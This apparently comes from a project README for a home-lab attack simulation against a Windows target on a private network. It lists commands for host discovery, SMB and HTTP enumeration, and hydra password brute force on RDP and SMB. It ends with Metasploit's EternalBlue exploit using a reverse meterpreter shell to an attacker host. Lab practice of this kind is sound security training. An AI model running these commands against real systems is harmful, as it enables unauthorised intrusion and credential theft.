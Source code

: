 ## Attack Simulation Procedures

### 1. Network Discovery
```bash
# Discover hosts on the network
nmap -sn 192.168.56.0/24

# Identify Windows target
netdiscover -r 192.168.56.0/24

# Detailed scan of Windows target
nmap -sS -sV -O -A 192.168.56.100
```

### 2. Service Enumeration
```bash
# SMB enumeration
enum4linux -a 192.168.56.100

# HTTP service inspection
nikto -h http://192.168.56.100

# Directory brute force
dirb http://192.168.56.100 /usr/share/wordlists/dirb/common.txt
```

### 3. Authentication Attacks
```bash
# RDP brute force (if service detected)
hydra -l administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.56.100

# SMB brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://192.168.56.100
```

### 4. Metasploit Framework Tests
```bash
# Start Metasploit
msfconsole

# Example exploit search
search eternalblue

# Example exploit usage
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.56.100
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.101
exploit
```
